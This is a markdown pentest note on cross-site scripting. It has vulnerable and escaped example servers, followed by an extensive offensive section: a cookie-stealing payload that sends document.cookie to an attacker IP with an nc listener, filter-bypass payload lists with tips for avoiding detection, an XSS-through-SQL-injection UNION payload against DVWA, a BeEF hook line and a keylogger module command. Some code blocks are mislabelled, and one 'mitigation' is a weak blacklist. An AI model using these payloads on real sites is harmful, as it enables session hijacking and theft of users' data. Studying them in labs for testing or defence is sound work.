

# Cross Site Scripting (XSS)

### Mechanism

Cross-site scripting (XSS) is a vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users

### What Is Vulnerability?

Cross-site scripting (XSS) is a type of security vulnerability typically found in web applications. It allows attackers to inject malicious scripts into content from otherwise trusted websites. These scripts can then be executed in the context of the user's browser, leading to various potential attacks including data theft, session hijacking, and defacement of websites.

## Types

#### Types of XSS Attacks

1. **Stored XSS**
2. **Blind XSS**
3. **Reflected  XSS**
4. **DOM XSS**
5. **Self XSS**

#### How Does It Happen?

### Reflected XSS <a href="#types" id="types"></a>

> **The malicious script is reflected off a web server, such as in an error message or a search result, and executed immediately as part of the response.**



```php
php
<?php
if (isset($_GET['qq'])){
    $qq = $_GET['qq'];
    echo'Result Found '.$qq;
}
?>
<cneter>
    <form action="" method="get">
        <label aria-hidden="true">Search Anything</label>
        <input type="text" name="qq" id="qq">
        <input type="submit" value="Search">
    </form>
</cneter>
```



```python
from flask import Flask, request, escape

app = Flask(__name__)

@app.route("/", methods=["GET"])
def search():
    qq = request.args.get("qq")
    result = f"Result Found {escape(qq)}" if qq else ""
    form_html = '''
    <center>
        <form action="" method="get">
            <label aria-hidden="true">Search Anything</label>
            <input type="text" name="qq" id="qq">
            <input type="submit" value="Search">
        </form>
        <div>{}</div>
    </center>
    '''.format(result)
    return form_html

if __name__ == "__main__":
    app.run(debug=True)

```



```javascript
const express = require('express');
const app = express();
const port = 3000;

app.get('/', (req, res) => {
    const qq = req.query.qq;
    const result = qq ? `Result Found ${qq}` : '';
    const formHtml = `
    <center>
        <form action="" method="get">
            <label aria-hidden="true">Search Anything</label>
            <input type="text" name="qq" id="qq">
            <input type="submit" value="Search">
        </form>
        <div>${result}</div>
    </center>
    `;
    res.send(formHtml);
});

app.listen(port, () => {
    console.log(`App listening at http://localhost:${port}`);
});

```



<figure><figcaption></figcaption></figure>

I will try use some tags to test rxss <mark style="color:red;">**`'"><h1>Hacked</h1>`**</mark>

<mark style="color:blue;">**`the best`**</mark> **`'"><h1>Hacked</h1>{7*7}}JyI+PGgxPmhhY2tlZDwvaDE+`**

<figure><figcaption></figcaption></figure>

Ok this search Vulnerable HTML injection &&  RXSS

Simple JS payload

```javascript
<script>alert('OSCP+EWAPTXv2')</script>
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Stored XSS

```php

<?php
if(isset($_POST["c"])) {
    $c = $_POST['c'];
    echo 'your commit is '.$c.' Thanks';
}
?>
<cneter>
    <form action="" method="post">
        <label aria-hidden="true">Write Commint</label>
        <input type="text" name="c" id="c">
         <input type="submit" value="Submit">
    </form>
</cneter>
```


### Mitiegstion Code

Use htmlentities() Function => PHP

**use escape() Function = PYTHON**

use escapeHtml() Function = JS



```php
from flask import Flask, request, escape

app = Flask(__name__)

@app.route("/", methods=["GET"])
def search():
    # Get the user input from the query parameters
    qq = request.args.get("qq")
    
    # Escape the user input to prevent XSS
    result = f"Result Found {escape(qq)}" if qq else ""
    
    # Create the HTML form with the result safely included
    form_html = '''
    <center>
        <form action="" method="get">
            <label aria-hidden="true">Search Anything</label>
            <input type="text" name="qq" id="qq">
            <input type="submit" value="Search">
        </form>
        <div>{}</div>
    </center>
    '''.format(result)
    
    return form_html

if __name__ == "__main__":
    app.run(debug=True)

```



```python
message = "hello world"
print(message)
```



```javascript
const express = require('express');
const app = express();
const port = 3000;

// Function to escape HTML entities
function escapeHtml(unsafe) {
    return unsafe
         .replace(/&/g, "&amp;")
         .replace(/</g, "&lt;")
         .replace(/>/g, "&gt;")
         .replace(/"/g, "&quot;")
         .replace(/'/g, "&#039;");
}

app.get('/', (req, res) => {
    const qq = req.query.qq;
    const result = qq ? `Result Found ${escapeHtml(qq)}` : '';
    const formHtml = `
    <center>
        <form action="" method="get">
            <label aria-hidden="true">Search Anything</label>
            <input type="text" name="qq" id="qq">
            <input type="submit" value="Search">
        </form>
        <div>${result}</div>
    </center>
    `;
    res.send(formHtml);
});

app.listen(port, () => {
    console.log(`App listening at http://localhost:${port}`);
});

```



Case 2 Mitigation

```bash
$string = $_GET['search'] ;


$regex = "/{|}|src|confirm|prompt|write|<|>|alert|print/" ;

?>
<script>
    
    window.test = {
        site: "Night",
    page: {
        name : "<?php echo  preg_replace( $regex, '' ,$string) ?>" ;    
    }
}    

</script>

<center>
<form method="GET" >    
<label aria-hidden="true">Search For Anything</label>
    <input type="text" placeholder="Enter Something" name="search" >
    <button type="submit">Send</button>
</form>    

</center>
```


Additional Security Measures

1.  **Content Security Policy (CSP)**

    ```php
    header("Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';");
     
    ```


## How To PenTest?

in website&#x20;

<pre class="language-javascript"><code class="lang-javascript"><strong>&#x3C;script>new Image().src="http://192.168.1.9:4444/bogus.php?output="+escape(document.cookie);&#x3C;/script>
</strong></code></pre>

## in your Attcker Machine

```bash
nc -nvlp 4444
```

<figure><figcaption></figcaption></figure>

## How to Bypass Protection

* Without event handlers

```
<object data=javascript:confirm()>
<a href=javascript:confirm()>click here
<script src=//14.rs></script>
<script>confirm()</script>
```

* Without space

```
<svg/onload=confirm()>
<iframe/src=javascript:alert(1)>
```

* Without slash (/)

```
<svg onload=confirm()>

```

* Without equal sign (=)

```
<script>confirm()</script>
```

&#x20;  • Background image manipulation:

```
<body background="javascript:alert('Successful XSS')">

<div style="background-image:url(javascript:alert('Successful XSS'))">

<input type="image" src="javascript:alert('Successful XSS')">

<meta http-equiv="refresh" content="0;url=data:text/html
base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

<head><meta http-equiv="content-type" content="text/html; charset=utf-7"></head>+adwscript+ad4-alert('xss');+adw-/script+ad4-
```


* eval

```
<body onload="eval(atob('YWxlcnQoJ1N1Y2Nlc3NmdWwgWFNTJyk='))">
```

* Without closing the angular bracket (>)

```
<svg onload=confirm()//
```


Ex :

```php
<? php
$test = "/>|<|'|\"/" ;

$string = $_GET['search'];

echo "<h1>" ;
echo (preg_match($test , $string)) ? "XSS Detected" : $string ; 
echo "</h1>" ;
?>

```

OR

```
<svg onload=console.log()//
```

```php
<?php
$test = "/src|alert|confirm|prompt|write/";

$string = $_GET['search'];

echo "<h1>" ;
echo (preg_match($test , $string)) ? "XSS Detected": $string ; 
echo "</h1>" ;
?>
```

* Without alert, confirm, prompt

```
<script src=//14.rs></script>
<svg onload=co\u006efirm()>
<svg onload=z=co\u006efir\u006d,z()>
```

* Without a Valid HTML tag

```
<x onclick=confirm()>click here
<x ondrag=aconfirm()>drag it
```

* Bypass tag blacklisting

```
</ScRipT>
</script
</script/>
</script x>
```

| HTML       | Char | Numeric  | Description            | Hex    | CSS (ISO) | JS (Octal) | URL |
| ---------- | ---- | -------- | ---------------------- | ------ | --------- | ---------- | --- |
| `&quot;`   | "    | `&#34;`  | quotation mark         | u+0022 | \0022     | \42        | %22 |
| `&num;`    | #    | `&#35;`  | number sign            | u+0023 | \0023     | \43        | %23 |
| `&dollar;` | $    | `&#36;`  | dollar sign            | u+0024 | \0024     | \44        | %24 |
| `&percnt;` | %    | `&#37;`  | percent sign           | u+0025 | \0025     | \45        | %25 |
| `&amp;`    | &    | `&#38;`  | ampersand              | u+0026 | \0026     | \46        | %26 |
| `&apos;`   | '    | `&#39;`  | apostrophe             | u+0027 | \0027     | \47        | %27 |
| `&lpar;`   | (    | `&#40;`  | left parenthesis       | u+0028 | \0028     | \50        | %28 |
| `&rpar;`   | )    | `&#41;`  | right parenthesis      | u+0029 | \0029     | \51        | %29 |
| `&ast;`    | \*   | `&#42;`  | asterisk               | u+002A | \002a     | \52        | %2A |
| `&plus;`   | +    | `&#43;`  | plus sign              | u+002B | \002b     | \53        | %2B |
| `&comma;`  | ,    | `&#44;`  | comma                  | u+002C | \002c     | \54        | %2C |
| `&minus;`  | -    | `&#45;`  | hyphen-minus           | u+002D | \002d     | \55        | %2D |
| `&period;` | .    | `&#46;`  | full stop; period      | u+002E | \002e     | \56        | %2E |
| `&sol;`    | /    | `&#47;`  | solidus; slash         | u+002F | \002f     | \57        | %2F |
| `&colon;`  | :    | `&#58;`  | colon                  | u+003A | \003a     | \72        | %3A |
| `&semi;`   | ;    | `&#59;`  | semicolon              | u+003B | \003b     | \73        | %3B |
| `&lt;`     | <    | `&#60;`  | less-than              | u+003C | \003c     | \74        | %3C |
| `&equals;` | =    | `&#61;`  | equals                 | u+003D | \003d     | \75        | %3D |
| `&gt;`     | >    | `&#62;`  | greater-than sign      | u+003E | \003e     | \76        | %3E |
| `&quest;`  | ?    | `&#63;`  | question mark          | u+003F | \003f     | \77        | %3F |
| `&commat;` | @    | `&#64;`  | at sign; commercial at | u+0040 | \0040     | \100       | %40 |
| `&lsqb;`   | \[   | `&#91;`  | left square bracket    | u+005B | \005b     | \133       | %5B |
| `&bsol;`   | \\   | `&#92;`  | backslash              | u+005C | \005c     | \134       | %5C |
| `&rsqb;`   | ]    | `&#93;`  | right square bracket   | u+005D | \005d     | \135       | %5D |
| `&Hat;`    | ^    | `&#94;`  | circumflex accent      | u+005E | \005e     | \136       | %5E |
| `&lowbar;` | \_   | `&#95;`  | low line               | u+005F | \005f     | \137       | %5F |
| `&grave;`  | \`   | `&#96;`  | grave accent           | u+0060 | \0060     | \u0060     | %60 |
| `&lcub;`   | {    | `&#123;` | left curly bracket     | u+007b | \007b     | \173       | %7b |
| `&verbar;` | \|   | `&#124;` | vertical bar           | u+007c | \007c     | \174       | %7c |
| `&rcub;`   | }    | `&#125;` | right curly bracket    | u+007d | \007d     | \175       | %7d |

### Tips & Tricks

* `http(s)://` can be shortened to `//` or `/\\` or `\\`.
* `document.cookie` can be shortened to `cookie`. It applies to other DOM objects as well.
* alert and other pop-up functions don't need a value, so stop doing `alert('XSS')` and start doing `alert()`
* You can use `//` to close a tag instead of `>`.
* I have found that `confirm` is the least detected pop-up function so stop using `alert`.
* Quotes around attribute value aren't necessary as long as it doesn't contain spaces. You can use `<script src=//14.rs>` instead of `<script src="//14.rs">`
* The shortest HTML context XSS payload is `<script src=//14.rs>` (19 chars)

## Escalating the Attack

### XSS to SQL Injection (XSSQLi)

&#x20;XSS Injection with SQLi (XSSQLi) Well After our discussion on different types of injection and places you can find SQL injection Vulnerability, an attacker can successfully exploit an SQL injection vulnerability and get access to the database and if he is lucky enough to get access to the File System also by uploading shell

IN DVWA DEMO


```
http://192.168.2.5/dvwa/vulnerabilities/sqli/?id=1
```

<figure><figcaption></figcaption></figure>

i will use <mark style="color:red;">**`OR 6=6#`**</mark> to test &#x20;

<figure><figcaption></figcaption></figure>

Ok i will Try Use union Attack

```sql
1' union select 1,2#
```

<figure><figcaption></figcaption></figure>

Ok  Try again UNION Attack to make XSSSQi&#x20;

\<svg src=x onload=alert(/H3ckt00r/)>

Make  Encoded to HEX && ad 0x in begin payload

**`0x3c737667207372633d78206f6e6c6f61643d616c657274282f4833636b743030722f293e53`**

```sql
1' UNION SELECT 1,0x3c737667207372633d78206f6e6c6f61643d616c657274282f4833636b743030722f293e53#
```

<figure><figcaption></figcaption></figure>

B0000000000M!!

<figure><figcaption></figcaption></figure>


### BEEF-XSS

```
                                     .O,       
                                     lkOl                             
                                     od cOc                           
                                     'X,  cOo.                        
                                      cX,   ,dkc.                     
                                       ;Kd.    ,odo,.                 
                                        .dXl   .  .:xkl'              
                                          'OKc  .;c'  ,oOk:           
                                            ,kKo. .cOkc. .lOk:.       
                                              .dXx.  :KWKo. 'dXd.     
                                                .oXx.  cXWW0c..dXd.   
                                                  oW0   .OWWWNd.'KK.  
                                          ....,;lkNWx     KWWWWX:'XK. 
 ,o:,                          .,:odkO00XNK0Okxdlc,.     .KWWWWWWddWd 
  K::Ol                   .:d0NXK0OkxdoxO'             .lXWWWWWWWWKW0 
  od  d0.              .l0NKOxdooooooox0.        .,cdOXWWWWWWWWWWWWWx 
  :O   ;K;           ;kN0kooooooooooooK:  .':ok0NWWWWWWWWWWWWWWWWWWK. 
  'X    .Kl        ;KNOdooooooooooooooXkkXWWWWWWWWWWWWWWWWWWWWWWWNd.  
  .N. o. .Kl     'OW0doooooooooooooodkXWWWWWWWWWWWWWWWWWWWWWWWW0l.    
   0l oK' .kO:';kNNkoooooooooooook0XWWWWWWWWWWWWWWWWWWWWWWWKx:.       
   lX.,WN:  .:c:xWkoooooooooood0NWW0OWWWWWWWWWWWWWWWWWWWKo.           
    0O.0WWk'   .XKoooooooooooONWWNo  dWWWWWWWWWWWWWWWWWl              
     oKkNWWWX00NWXdooooooooxXWWNk'   dWWWWWWWWWWWWWWWWX               
      .cONWWWWWWWWOoooooooONWWK:...c0WWWWWWWWWWWWWWWWWW:              
         .;oONWWWWxooooodKWWWWWWWWWWWWWWWWWWWWWWWWWWWWWX.             
              'XW0oooookNWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWd             
              oW0ooooo0WWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWO             
             ;NXdooodKWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWx             
          ;xkOOdooooxOO0KNWWWWWWWWWWWWWWWWWWWWWWWWWWWWWX.             
         .NOoddxkkkkxxdoookKWWWWWWWWWWWWWWWWWWWWWWWWWWX'              
          :KNWWWWWWWWWWX0xooONWWWWWWWWWWWWWWWWWWWWWWWk.               
         .xNXxKWWWWWWWOXWWXxoKWWWWWWWWWWWWWWWWWWWWNk'                 
         OWl cNWWWWWWWk oNWNxKWWWWWWWWWWWWWWWWWNOl.                   
        ,Wk  xWWWWWWWWdxWWNWWWWWWWWWWWWXOdc,.                       
        .N0   lOXNX0x;  .KWWWWWWWWWWWNkc.                             
         :NO,         'lXWWWWWWWWWNk:.                                
          .dXN0OkxkO0NWWWWWWWWWWKl.                                   
             .';o0WWWWWWWWWWWNk;                                      
                  .cxOKXKKOd;.                                        
                                    
```


```javascript
<script src="http://192.168.1.9:3000/hook.js"></script>
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

[WriteUP](https://medium.com/@secureica/hooking-victims-to-browser-exploitation-framework-beef-using-reflected-and-stored-xss-859266c5a00a)

### XSS - Keyloger

```
use auxiliary/server/capture/http_javascript_keylogger
run
```

<figure><figcaption></figcaption></figure>

### XSS Session Hijacking

Stored XSS + Session Hijacking

<figure><figcaption></figcaption></figure>

Weak Session IDs Source&#x20;

```php
<?php

$html = "";

if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id'])) {
        $_SESSION['last_session_id'] = 0;
    }
    $_SESSION['last_session_id']++;
    $cookie_value = $_SESSION['last_session_id'];
    setcookie("dvwaSession", $cookie_value);
}
?> 
```

in the code if last\_session exist make last\_session = 0


### XSS Bypass Sanitization


```php
<!DOCTYPE html>
<html>
    <body>
        <?php
            function sanitise_username($username) {
                return strtr(
                    htmlentities ($username, ENT_QUOTES),
                    [';' => '']
                );
            }
        ?>
        <a href="#!" onclick="javascript:myFunction('/profile/<?php echo sanitise_username($_GET["user"]) ?>')">Profile</a>
    
        <script>
            function myFunction(url) {
                // do something
                location.href=url
            }
        </script>
    </body>
</html>
```



```
')-alert('a
```

<figure><figcaption></figcaption></figure>

Exploit using Arithmetic Operators

<figure><figcaption></figcaption></figure>

```javascript
 /?user=')|eval('onload=a'.concat('lert(document.cookie)'))//
```

```javascript
http://192.168.1.3/web/vulnapp.php%20/?user=%27)|eval(%27onload=a%27.concat(%27lert(document.cookie)%27))//#!
```

<figure><figcaption></figcaption></figure>

```javascript
 /?user='),alert?.('document.cookie//
```

Which sinks can lead to DOM-XSS vulnerabilities?

&#x20;The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

```

he following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()
after()
append()
animate()insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```
